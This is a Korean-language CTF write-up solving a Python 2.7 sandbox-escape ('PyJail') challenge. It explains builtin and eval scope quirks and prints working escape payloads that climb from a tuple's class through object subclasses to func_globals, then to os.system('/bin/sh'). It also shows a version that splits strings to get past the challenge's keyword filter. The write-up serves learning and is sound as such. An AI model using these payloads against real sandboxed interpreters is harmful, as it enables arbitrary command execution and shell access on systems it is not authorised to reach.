

# yet^2_Another_PySandbox
### #sandbox #python
---

[yet Another PySandbox](../yet_Another_PySandbox/README.md) 의 다른 버전 문제.

파이썬에서 변수와 함수의 scope , 그리고 여러 특수 attributes 를 공부할 수 있었던 문제이다.

애초에 **PyJail** 형식의 문제를 처음 접해보았는데 풀이를 공부하면서 과정이 굉장히 재미있었다.

소스코드는 [yetyet.py](./files/yetyet.py) 에 있다.

이전 버전과 다른 점은 **'\_\_builtins\_\_'** 안의 요소들을 다 제거하고 소스를 시작한다는 점이다.

> ## **여기서 '\_\_builtins\_\_' 란?**
>
> 우리가 파이썬을 쓸 때, **import** 문의 도움없이 바로 쓸 수 있는 **len()**, **print()**, **True, False** 같은 함수나 값들이 있다. 이들은 모두 파이썬의 **\_\_builtins\_\_** 클래스 안에 들어가있다.
> 
> 애초에 변수나 함수의 scope 중에서도 어디서든 참조할 수 있는 **builtin scope** 가 있다. 이 scope 덕분에 어디서든 **id()** 나 **print()** 같은 함수들을 쓸 수 있다.
>
> 한국말로는 '붙박이' 라고 해석할 수 있는데, 비슷한 뜻으로 애초에 파이썬에 붙어있는 모듈들을 가리킨다고 보면된다.


*\_\_builtins__ 안에 내장된 요소들을 확인할 수 있다.*

문제로 다시돌아와서, 빌트인을 모두 제거하는 부분은 아래와 같다.

```python
for k in keys:
    if k not in []: # Goodbye :)
        del __builtins__.__dict__[k]
```
*Goodbye :(*

이렇게 되면 **setattr**, **list**, **len** 같은 요소들을 이전과 같이 사용할 수 없다.

출제자의 말에 따르면, 해당 문제는 `eval()` 안에 어떠한 형태이던 **스코프(scope)** 형태를 만들어놓으면 그 안의 요소는 무조건 전역범위 요소가 된다는 것이다.

이게 write-up 을 읽으면서도 잘 이해가 안되었는데, 

- [Interaction with dynamic features](https://docs.python.org/3/reference/executionmodel.html#interaction-with-dynamic-features)

- [이러한 이슈에 대한 논의](https://bugs.python.org/issue1153622)


*변수 x를 전역변수로 간주하는 경우*


*변수 x를 `sand()` 함수의 지역변수로 간주하는 경우*

위 자료들과 실습을 해보면서 대강 감 정도는 잡을 수 있었다. 문제가 출제된 **python2.7** 버전은 물론 **python3.8** 버전까지도 있는 버그(?) 혹은 파이썬만의 요상한 policy 정도인 듯 하다.

일단은 **전역범위의 요소를 지정하여 실행시킬 수 있다는 점** 을 이용하면, 본 문제 소스에 있는 어떤 함수이던, **lambda** 를 이용해서 실행시킬 수 있을 것이다.

그리고 이전 문제와는 다르게 **'eval'** 문자열을 필터링 해놓지않는다.



이 두 가지 점들을 이용하면 우리는 결론적으로 lambda 를 이용해서 **sandboxed_eval** 함수를 실행시킬 수 있다는 것이다.

```python
eval((lambda:sandboxed_eval)()(args...))
# 인자없는 익명함수의 결과는 sandboxed_eval 함수가 되도록,
# 뭐 이런식으로...?
```

이렇게 실행이 되면, **sandboxed_eval** 함수 인자가 **check_eval_str()** 함수의 필터링을 안거치고 **eval** 이 실행되게 되어 인자만 잘 조작하면 될 것이다.

일단은 **check_eval_str()** 함수는 

`__ , module , class , globals , os , import`

만 필터링 하기 때문에 이 단어들을 쓸 때는 문자열을 나눠써서 우회하자.

> ## 새로 알았던 것
> PyJail 형식의 문제는 보통 **()** , **{}** 객체의 요소들을 타고들어가서 쉘을 켜는 경우가 많다고 한다.


*[tuple 클래스]*

이런 식으로 [파이썬의](https://docs.python.org/3/reference/datamodel.html#the-standard-type-hierarchy) [특수 아트리뷰트](https://docs.python.org/2.0/lib/specialattrs.html) 를 사용하면, 객체들의 클래스 및 여러 요소들을 구할 수 있다.


*[tuple 클래스에 상속한 부모클래스, object 클래스인 것을 알 수 있다.]*


*object 클래스가 상속한 자식 클래스들 목록*

이런 식으로 차근차근 따라가면, 아래와 같은 payload 를 얻을 수 있다.
```python
# final payload
().__class__.__bases__[0].__subclasses__()[60].__init__.func_globals['sys'].__dict__['modules']['os'].system("/bin/sh")
```

**os** 모듈과 **sys** 모듈 및 빌트인이 delete 되지 않았다면, 아래와 같은 페이로드도 가능성 있을 것이다.

```python
().__class__.__bases__[0].__subclasses__()[61].__init__.func_globals['__builtins__']['eval']("__import__('os').system('ls')")
```

아무튼 최종 페이로드를 필터링에 맞게 수정해주면,

```python
(lambda:sandboxed_eval)()("()._"+"_clas"+"s_"+"_._"+"_bases_"+"_[0]._"+"_subclas"+"ses_"+"_()[59]._"+"_init_"+"_.func_glo"+"bals['sys'].mod"+"ules['o"+"s.path'].o"+"s.system('sh')")
```

이다.


* **참고자료** : [flask injection취약점 공격](https://say2.tistory.com/entry/flask-injection%EC%B7%A8%EC%95%BD%EC%A0%90-%EA%B3%B5%EA%B2%A9)


.

.


.

**Contact :** a42873410@gmail.com